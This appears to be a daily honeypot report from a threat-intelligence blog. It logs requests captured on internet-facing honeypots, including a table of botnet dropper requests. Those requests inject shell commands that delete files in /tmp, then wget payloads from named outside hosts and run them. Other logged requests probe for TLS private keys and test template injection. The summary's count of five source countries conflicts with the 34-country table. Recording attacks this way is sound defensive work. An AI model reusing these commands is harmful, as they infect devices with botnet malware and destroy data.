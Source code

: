 ```yaml
---
title: "Report: 2025-08-03 "
date: 2025-08-03
desciption: "Report: 2025-08-03" 
tags: [repport, daily]
---
```



# Daily Report: 2025-08-03 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 5 stage 1 IP address(es), linked to 4 dropper URL(s).  

There are 16 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 515 requests were recorded during the day, originating from 5 different countries, with a peak of 156 requests coming from US.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| FR               | Dubai              |
| US               | Dubai              |

## botnet_dropper_behaviour
| remote_addr   | request                                                                                                                                                                                                                                                                                                                         |
|:--------------|:--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 59.36.175.218 | GET /shell?cd+/tmp;rm+-rf+*;wget+196.251.86.86/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                                                                                                                                                       |
| 141.98.10.150 | GET /shell?killall+-9+arm7;killall+-9+arm4;killall+-9+arm;killall+-9+/bin/sh;killall+-9+/bin/sh;killall+-9+/z/bin;killall+-9+/bin/bash;cd+/tmp;rm+arm4+arm7;wget+http:/\x5C/vpn.cursinqfirewall.ru/home;chmod+777+home;./home+x.arm7;wget+http:/\x5C/vpn.cursinqfirewall.ru/aboutus;chmod+777+aboutus;./aboutus+x.arm4 HTTP/1.1 |
| 197.52.37.111 | GET /shell?cd+/tmp;rm+-rf+*;wget+ 45.153.34.39/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                                                                                                                                                       |
| 8.219.6.49    | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                                                                                                                                            |
| 8.219.50.197  | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                                                                                                                                            |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                                        |
|----:|----------------------:|:---------------------------------------------------------------|
|  63 |                     1 | \x00\x0E8\xB2}\xD2\xAD\xB0\xF0\xA9\x04\x00\x00\x00\x00\x00     |
|  69 |                     1 | GET /downloads HTTP/1.1                                        |
|  70 |                     1 | GET /shared HTTP/1.1                                           |
|  71 |                     1 | GET /public HTTP/1.1                                           |
|  75 |                     1 | GET /ssl/server.key HTTP/1.1                                   |
|  76 |                     1 | GET /ssl/key.pem HTTP/1.1                                      |
|  77 |                     1 | GET /jmx-console HTTP/1.1                                      |
|  85 |                     1 | GET /Autodiscover/Autodiscover.xml HTTP/1.1                    |
|  86 |                     1 | GET /static/lang/custom/sbin/init HTTP/1.1                     |
|  88 |                     1 | GET /documents HTTP/1.1                                        |
|  91 |                     1 | GET /mifs/rs/api/v2/featureusage?format=$%7b1234*2%7d HTTP/1.1 |
|  92 |                     1 | GET /lang/custom/sbin/init HTTP/1.1                            |
| 170 |                     1 | CONNECT 196.251.69.43:80 HTTP/1.0                              |
| 171 |                     1 | \x04\x01\x00P\xC4\xFBE+\x00                                    |
| 187 |                     1 | GET /socket.io/1/?t=1754194716070 HTTP/1.1                     |
| 189 |                     1 | \x00\x0E8\xA3\xC6\xD3|\x5C\xF8\x0C\x95\x00\x00\x00\x00\x00     |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   156 | US                 |
|  1 |                    83 | GB                 |
|  2 |                    50 | CN                 |
|  3 |                    38 | FR                 |
|  4 |                    31 | SC                 |
|  5 |                    24 | NL                 |
|  6 |                    16 | PL                 |
|  7 |                    14 | BG                 |
|  8 |                    12 | LT                 |
|  9 |                    12 | DE                 |
| 10 |                    12 | AU                 |
| 11 |                     9 | UA                 |
| 12 |                     7 | IN                 |
| 13 |                     6 | RO                 |
| 14 |                     6 | HU                 |
| 15 |                     5 | VN                 |
| 16 |                     5 | ZA                 |
| 17 |                     3 | BR                 |
| 18 |                     3 | RU                 |
| 19 |                     3 | SG                 |
| 20 |                     2 | AE                 |
| 21 |                     2 | KR                 |
| 22 |                     2 | CH                 |
| 23 |                     2 | CA                 |
| 24 |                     2 | SE                 |
| 25 |                     2 | HK                 |
| 26 |                     1 | TW                 |
| 27 |                     1 | KZ                 |
| 28 |                     1 | EG                 |
| 29 |                     1 | GR                 |
| 30 |                     1 | SK                 |
| 31 |                     1 | JP                 |
| 32 |                     1 | TR                 |
| 33 |                     1 | IR                 |
